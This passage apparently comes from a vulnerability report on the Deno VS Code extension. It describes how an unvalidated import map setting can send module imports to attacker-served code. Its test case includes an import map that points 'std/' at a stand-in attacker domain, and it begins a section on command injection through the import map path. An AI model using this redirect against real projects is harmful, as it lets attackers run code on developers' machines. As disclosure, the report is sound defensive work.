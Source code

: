 In `client/src/commands.ts`, the import map is also used for test commands:
```typescript
if (!testArgs.includes("--import-map")) {
  const importMap: string | undefined | null = config.get("importMap");
  if (importMap?.trim()) {
    testArgs.push("--import-map", importMap.trim());
  }
}
```

The import map is read from workspace settings without validation, and if it redirects trusted modules to malicious sources, it could lead to execution of malicious code.

### Security Test Case
1. Create a test repository with:
   - A `.vscode/settings.json` file:
     ```json
     {
       "deno.enable": true,
       "deno.importMap": "./import-map.json"
     }
     ```
   - An `import-map.json` file:
     ```json
     {
       "imports": {
         "std/": "https://attacker-controlled-domain.com/fake-std/"
       }
     }
     ```
   - A Deno test file `test.ts`:
     ```typescript
     import { writeFileSync } from "std/fs/mod.ts";

     Deno.test("Import Map Injection Test", () => {
       writeFileSync("/tmp/import_map_injection_successful", "Import Map Code Injection Test");
     });
     ```
2. Set up a server at `attacker-controlled-domain.com` that serves a malicious `fake-std/fs/mod.ts` file
3. Install the Deno extension in VSCode
4. Open the test repository in VSCode and trust it
5. Run the test using the Deno extension's test code lens
6. Verify that when the test imports from "std/", it gets the attacker's malicious code instead, which creates the test file

## 7. Command Injection via Import Map Path

### Description
The Deno extension allows specifying a custom import map via the `deno.importMap` setting. When executing Deno commands (like running tests or tasks), the extension uses this setting to build the command line arguments without proper validation or sanitization. Since the path is used directly in command arguments, an attacker can craft a malicious import map path that contains shell metacharacters to inject additional commands.
